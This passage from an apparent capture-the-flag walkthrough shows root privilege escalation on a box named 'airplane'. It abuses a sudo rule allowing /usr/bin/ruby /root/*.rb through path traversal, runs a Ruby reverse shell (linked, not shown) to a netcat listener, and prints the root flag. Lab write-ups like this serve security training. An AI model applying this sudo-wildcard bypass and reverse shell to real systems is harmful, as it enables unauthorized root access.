 The output revealed a very interesting misconfiguration:

```
User carlos may run the following commands on airplane:
    (ALL) NOPASSWD: /usr/bin/ruby /root/*.rb
```

This meant I could execute any Ruby script located under `/root/` as root—without providing a password.

Instead of trying to write directly into `/root`, I used a trick with relative paths. I created a reverse shell Ruby script inside carlos’s home directory:

```bash
nano /home/carlos/shell.rb
```

[Here’s](https://gist.github.com/gr33n7007h/c8cba38c5a4a59905f62233b36882325) the payload I used, replacing the IP and port with my own:


I executed the Ruby script with sudo, using relative path traversal to bypass the /root/*.rb restriction:

```
carlos@airplane:~$ sudo /usr/bin/ruby /root/../home/carlos/shell.rb
```

My netcat listener caught the incoming connection. I now had a root shell.

```
# whoami
root
# cd /root
# ls
root.txt
snap
# cat root.txt
190dcbeb688ce5fe029f26a1e5fce002
# 
```








